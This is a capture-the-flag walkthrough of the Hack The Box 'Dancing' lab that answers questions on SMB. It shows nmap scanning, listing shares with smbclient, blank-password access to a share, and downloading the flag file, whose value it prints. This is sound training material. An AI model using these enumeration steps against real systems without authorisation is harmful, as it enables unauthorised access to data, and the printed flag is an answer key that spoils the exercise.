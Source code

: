 <span style="color:cyan">**Question 1**</span> : What does the 3-letter acronym SMB stand for?

SMB stands for Server Message Block. It's a network communication protocol used for sharing resources between devices on a Windows network.

    Server Message Block

<span style="color:cyan">**Question 2**</span> : What port does SMB use to operate at?

SMB typically operates over port 445

    445

<span style="color:cyan">**Question 3**</span> : What is the service name for port 445 that came up in our Nmap scan?

At this point, I used nMap to identify open ports and services.
```
cmd : nmap -sV 10.129.66.11

Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-09 19:13 CET
Nmap scan report for 10.129.66.11 (10.129.66.11)
Host is up (0.029s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.58 seconds
```

From the scan, I can see that the service name for port 445 is microsoft-ds.

    microsoft-ds

<span style="color:cyan">**Question 4**</span> : What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

To list the available shares on a server using the smbclient utility, we can use the -L (uppercase "L") flag or switch

    -L

<span style="color:cyan">**Question 5**</span> : How many shares are there on Dancing?

I executed the command smbclient -L 10.129.227.215 and observed four shares on Dancing.

```
cmd : smbclient -L 10.129.227.215

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk 
```

    4

<span style="color:cyan">**Question 6**</span> : What is the name of the share we are able to access in the end with a blank password?

I first observe that the answer is in the following format: 

```
*********s
```

From the previous output, i can see that there is a singol share with an s at the end, taht is WorkShares

At this point, I attempted to connect to the 'WorkShares' share and observed that access was granted without requiring a password.

```
cmd : smbclient \\\\10.129.227.215\\WorkShares

smb: \> help
```

    WorkShares

<span style="color:cyan">**Question 7**</span> : What is the command we can use within the SMB shell to download the files we find?

I can use the `get` command to download files.

    get

<span style="color:cyan">**Question 8**</span> : Submit root flag

I checked out the available commands using 'help,' and saw that 'ls' was there. So, I started poking around the system and noticed two directories

```
cmd: ls

.                                   D        0  Mon Mar 29 10:22:01 2021
..                                  D        0  Mon Mar 29 10:22:01 2021
Amy.J                               D        0  Mon Mar 29 11:08:24 2021
James.P                             D        0  Thu Jun  3 10:38:03 2021

	5114111 blocks of size 4096. 1747900 blocks available
```

When I went into the second directory, I spotted the flag file

```
cmd : cd James.P

cmd : ls

.                                   D        0  Thu Jun  3 10:38:03 2021
..                                  D        0  Thu Jun  3 10:38:03 2021
flag.txt                            A       32  Mon Mar 29 11:26:57 2021

	5114111 blocks of size 4096. 1747877 blocks available
```

Finally i can use the `get`` command to download flag.txt and obtain the flag
```
cmd : get flag.txt

cmd : cat flag.txt
```

    5f61c10dffbc77a704d76016a22f1664






